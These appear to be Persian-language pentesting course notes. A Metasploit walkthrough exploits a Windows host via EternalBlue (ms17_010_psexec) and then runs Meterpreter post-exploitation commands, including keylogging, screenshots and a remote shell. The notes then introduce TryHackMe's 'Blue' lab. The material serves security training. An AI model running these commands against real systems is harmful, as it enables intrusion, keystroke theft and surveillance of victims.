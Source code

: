 ```sh
sudo msfconsole
"msfconsole started"
msf6> search eternal
msf6> use exploit/windows/smb/ms17_010_psexec
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOST 192.168.110.22 #Target Windows IP
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 192.168.110.21 #Kali IP
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
"Meterpreter Session 1 Opened (192.168.1.3:4444 --> 192.168.1.2:49462) at 22-10-23 18:08:13 +0000"
#Meterpreter Commands
Meterpreter >> help
Meterpreter >> ps
Meterpreter >> migrate 3028 #3028 id of explorer.exe process
Meterpreter >> screenshot #Screenshots from target save in home directory
Meterpreter >> getuid #Get server username 
Meterpreter >> screenshare
#start Logging target Keystrokes
Meterpreter >> keyscan_start
Meterpreter >> keyscan_dump
Meterpreter >> run winenum #Enumerate target informations
Meterpreter >> shell #Open CMD from target windows machine
"Now terminal change to CMD type"
#CMD on Meterpreter Shell
C:\Windows\System32> cd ..
C:\Windows> cd ..
C:\>
```
### Practice Pentesting Methodology with **Try Hack Me** - E54
#### Definition & Instruction
##### Practical Pentesting 
- برای تمرین فرایند های Hacking و بالا بردن سطح تجربیات در عمل میتوانیم از سرویس هایی که تمرین ها و آزمایشگاه های امنیتی و هک را ارائه میدهند استفاده کنیم. 
*از مشهور ترین آنها میتوانیم به موارد زیر اشاره کنیم:*
1. Try Hack Me
2. Hack the Box
3. Natas
4. etc ...
- حال در این جلسه هم میخواهیم به تمرین کامل فرآیند و متدلوژی Pentesting از ابتدا Scan تا انتها یعنی Post Exploitation Phase بپردازیم تا بتوانیم سطح مهارت های خود را در زمینه تست نفوذ Pentesting بالا ببریم.
	![[Pasted image 20240711183943.png]]
- متدلوژی تمرین ما در این جلسه، متدلوژی مخصوص Blue Team است که در واقع تیم محافظت میشود. در جلسات بعدی متدلوژی Red Team را نیز تمرین میکنیم.
##### Try Hack Me - Hacking Laboratory 🔬 💻
سرویس و وبسایت https://tryhackme.com یک آزمایشگاه آنلاین بزرگ برای انجام انواع تمرین های Hacking و Pentesting در تمامی متدلوژی های مختلف میباشد.
*برای راه اندازی و استفاده از آزمایشگاه مراحل زیر را دنبال میکنیم >>*
0. https://tryhackme.com Register in Website
	1. برای استفاده ابتدا باید در وبسایت بصورت رایگان Register کنیم.
		1. ![[Pasted image 20240711184618.png]]
1. in `Search bar`, search for `Blue` and Open it. this room is a Windows machine
	1. ![[Pasted image 20240711184847.png]]
2. Now we can Start Blue machine using  `Kali Linux` or `AttackBox`, in this scenario we `Use AttackBox`
	1. ![[Pasted image 20240711185100.png]]
3. *Start Machine*
	1. Now Machine started in Browser Side Panel , Now goto `Task 1 Section named Recon` and Click on `Start Machine`
		1. ![[Pasted image 20240711185315.png]]
	2. Click on `full screen` Icon to use machine in Full Scree via VNC Connection
		1. ![[Pasted image 20240711185534.png]]